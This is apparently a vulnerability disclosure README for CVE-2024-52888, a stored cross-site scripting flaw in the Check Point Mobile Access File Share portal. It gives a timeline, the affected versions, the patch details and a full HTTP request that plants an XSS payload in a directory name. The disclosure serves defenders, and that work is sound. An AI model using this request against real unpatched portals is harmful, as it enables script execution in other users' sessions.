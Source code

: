 # CVE-2024-52888
Check Point Mobile Access portal File Share application - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal File Share application. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.

An authenticated attacker could create malicious file or directory names that, when accessed by another authenticated user, may trigger the portal to execute a script while displaying the directory or file properties.

Payload can be saved using following request:
```
POST /sslvpn/HFS/index.php?NFSaction=createDir&Server=[REDACTED]&Share=Portal_Share&dir=. HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------21390880402331902083754323923
Content-Length: 367
Origin: [REDACTED] 
Connection: keep-alive


-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="dir"

.
-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="name"


zzz2"><img%20src=x%20onerror='alert(document.domain)'>
-----------------------------21390880402331902083754323923--
```

## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
Check Point has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173

Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183055.

### References
* https://support.checkpoint.com/results/sk/sk183055
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52888
* https://www.cve.org/CVERecord?id=CVE-2024-52888

